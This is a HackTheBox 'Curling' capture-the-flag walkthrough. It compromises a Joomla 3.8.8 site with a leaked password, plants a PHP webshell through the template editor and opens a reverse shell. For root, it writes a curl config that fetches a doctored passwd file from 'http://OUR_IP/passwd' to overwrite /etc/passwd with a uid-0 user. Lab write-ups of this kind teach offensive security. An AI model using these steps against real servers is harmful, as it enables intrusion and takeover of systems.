# Curling Walkthrough (HackTheBox) by [yag1n3](https://github.com/yaguine)



### objetives
* user flag
* root flag

---

## Reconnaissance

### nmap 

  

### website

  

we see that it's using Joomla thanks to **Wappalizer**  
let's check the source code  

  

omg... someone has to be fired  
we access that endpoint, there is a string that looks like base64  

  

we decode it and it surely looks like a password  

on the posts posted on the root of the website, there is one signed as "Floris"  
lets try that username and the prior discovered password...and we are in !!  

---

## Joomla Exploitation

now we are on the website  
first i thought about maybe a CVE for this version of Joomla  
on *System --> System Information* we discover that we are using *Joomla! 3.8.8 Stable*  
the only interesting vulnerability that i am able to find is a LFI tagged as CVE-2018-12712  
the problem is that we need the server to be using PHP 5.3, but it is using 7.2.24  

  

let's try other thing  

searching ways to exploit Joomla, i end up in [this article](https://www.hackingarticles.in/joomla-reverse-shell/)  
we discover that we can use templates to execute arbitrary PHP code  
this is the proccess :
1. we go to Extensions --> Templates --> Templates
2. we choose whatever file, *error.php* for instance
3. we substitute the php code for our own (a php webshell in this case)
  
4. we go access the endpoint */templates/<TEMPLATE_NAME>/error.php*
5. we execute code with the url parameter "cmd"

now we use it to get a reverse shell with our favorite reverse shell method

---

## User Flag

after stabilizating the shell, we resume our journey  
*user.txt* is inside the home directory of "floris", but we can't read it  
but there is another thing inside this directory : *password_backup*  
this file contains a **hex dump**  

  

we use `xxd -r password_backup > pass` to convert it into its binary form  
this is a challenge that concatenates file compressions, so i share the image with the proccess and the order  

  

the general idea is to use the command "file" to know the type of file, then change its extension to the expected one for this type, and then decompress it  
repeat the process till you get the file "password.txt", and now we can log in via ssh as "floris"  

---

## Root flag

on floris' home directory there is a folder called "admin-area"  

  

so there are two files, on points to localhost's url, and the other one is an html file  
i wasn't quite aware of what was happening till y started enumerating and i used **pspy** to spy on the processes running on the machine  

  

so, the user **root** is using curl with the option -K to make an http request and saving it on a file  
here i find [documentation](https://curl.se/docs/manpage.html) about the "curl" command and this is how the -K option works  

  

in summary : -K lets you specify a config file with options about how the request is going to be sent  
one of the options you can choose is the output file  
after some tests i confirm that this prevails over the output file chosen with the -o option  
so, since we have write permissions over the config file, we can use it to escalate privileges in the following way :

1. we write a modified version of the /etc/passwd of the machine, but adding another user with its password's hash (we use openssl to generate the hash)
2. this user has to have 0 as user and group id
3. we start an http server on our machine on the folder were the modified passwd file is stored
4. we change the config file */home/floris/admin-area/input* to look like this
```
url = "http://OUR_IP/passwd"
output = "/etc/passwd"
```
5. we wait till we receive the http request, and now we will be able to access the machine as our chosen user and password with root privileges
6. enjoy your success !!


